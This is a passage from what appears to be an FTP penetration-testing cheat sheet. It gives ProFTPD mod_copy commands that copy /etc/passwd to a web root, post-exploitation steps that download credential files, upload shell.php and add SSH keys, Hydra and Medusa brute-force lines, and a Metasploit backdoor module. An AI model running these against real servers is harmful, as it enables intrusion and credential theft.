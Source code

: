 ### ProFTPD mod_copy Vulnerability

```bash
ftp target
SITE CPFR /etc/passwd
SITE CPTO /tmp/passwd
SITE CPFR /tmp/passwd
SITE CPTO /var/www/html/passwd.txt
```

## 6. Advanced Techniques and Edge Cases

### Passive vs Active Mode

```bash
ftp -p target
ftp> passive  # toggle
```  

### Binary vs ASCII Transfer Modes

```bash
ftp> binary
ftp> ascii
```  

## 7. Post-Exploitation and Persistence

```bash
get /etc/passwd
put shell.php
# Upload SSH key to .ssh/authorized_keys
```  

## 8. Common Vulnerabilities and CVEs

- CVE-2011-2523 vsftpd backdoor
- CVE-2015-3306 ProFTPD mod_copy
- CVE-1999-0368 Wu-FTP heap overflow
- Anonymous FTP access, Directory Traversal, Bounce Attack

## 9. Tools and Techniques Reference

- **Nmap**: `nmap --script ftp-* -p 21 target`
- **Hydra**: `hydra -L users.txt -P passwords.txt ftp://target`
- **Medusa**: `medusa -h target -u admin -P passwords.txt -M ftp`
- **wget**: `wget -r ftp://user:pass@target/`
- **ncftp**: `ncftp -u user -p pass target; get -R /remote`
- **Metasploit**: `use exploit/unix/ftp/vsftpd_234_backdoor`

## 10. Practical Examples and Scenarios
